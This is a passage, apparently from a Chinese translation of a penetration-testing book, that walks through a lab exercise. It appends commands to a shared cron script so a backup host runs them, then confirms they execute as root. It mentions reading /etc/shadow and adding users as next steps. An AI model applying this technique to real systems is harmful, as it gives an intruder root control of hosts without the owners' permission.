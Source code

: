 图 11-1: p-web-01 和 c-backup-01 之间的间接网络访问

虽然*p-web-01*没有直接访问公司网络的权限，但*p-web-02*有。这意味着我们将修改*p-web-01*中的*execute.sh*脚本，但尝试通过*p-web-02*与*c-backup-01*进行交互。

### 验证可利用性

为了验证*c-backup-01*是否确实在执行*execute.sh*脚本，我们需要让它发出一个信号。这个信号可以是发送到我们打开的监听器的网络数据包；或者，我们可以强制*c-backup-01*在共享驱动器中创建一个文件。让我们试试这个。在*p-web-01*（172.16.10.10）上，将以下行添加到*/mnt/script/execute.sh*的末尾：

```
touch "/mnt/scripts/$(hostname).txt"
```

由于脚本声称每分钟运行一次，我们需要监视文件创建事件，以便在文件被删除之前看到它。我们可以使用 watch 命令来做到这一点。列表 11-6 将运行 ls -l 命令，并每两秒刷新一次输出。

```
$ **watch -d 'ls -l'**

Every 2.0s: ls -l     p-web-01.acme-infinity-servers.com: Sat

total 8
-rw-r--r-- 1 root root 0 Nov 4 18:13 c-backup-01.acme-infinity-servers.com.txt
-rwxr--r-- 1 root root 529 Nov 4 18:08 execute.sh 
```

列表 11-6：使用 watch 命令监控文件变化

如你所见，*c-backup-01.acme-infinity-servers.com.txt*文件出现，表明*c-backup-01*确实在执行这个脚本。

### 检查用户上下文

Cron 作业可以由专用用户运行，但在某些情况下，它们可能会以*root*用户身份运行。这可能出于方便，或者是安全疏忽。为了验证脚本运行的用户上下文，我们可以在文件中添加命令，以捕获主机名、运行 cron 作业的用户身份以及系统上运行的所有进程列表：

```
echo "Hostname: $(hostname)" > /mnt/scripts/$(hostname).txt
echo "Identity: $(id)" >> /mnt/scripts/$(hostname).txt
echo "Processes: $(ps aux)" >> /mnt/scripts/$(hostname).txt 
```

重复列表 11-4 中的 watch 命令，查看写入文件的新内容。一旦写入内容，运行 cat 命令查看结果：

```
$ **cat /mnt/scripts/c-backup-01***

Hostname: c-backup-01.acme-infinity-servers.com
Identity: uid=0(root) gid=0(root) groups=0(root)
Processes:
USER     PID   %CPU %MEM  VSZ   RSS TTY  STAT START TIME COMMAND
`--snip--`
root     1812  0.0  0.0   2732   924 ?   Ss 18:23  0:00 /bin/sh -c bash /mnt/scripts/execute.sh
root     1813  0.0  0.0   4244  3196 ?   S  18:23  0:00 bash /mnt/scripts/execute.sh
root     1823  0.0  0.0   8204  4000 ?   R  18:23  0:00 ps aux 
```

脚本以 root 身份运行。这意味着我们在 root 上下文下拥有完全的命令执行能力。从这里开始，我们几乎可以做任何事情，例如查看由*root*用户拥有的文件，如*/etc/shadow*；在关键系统目录中写入自定义文件；将文件复制到远程服务器；以及添加用户。
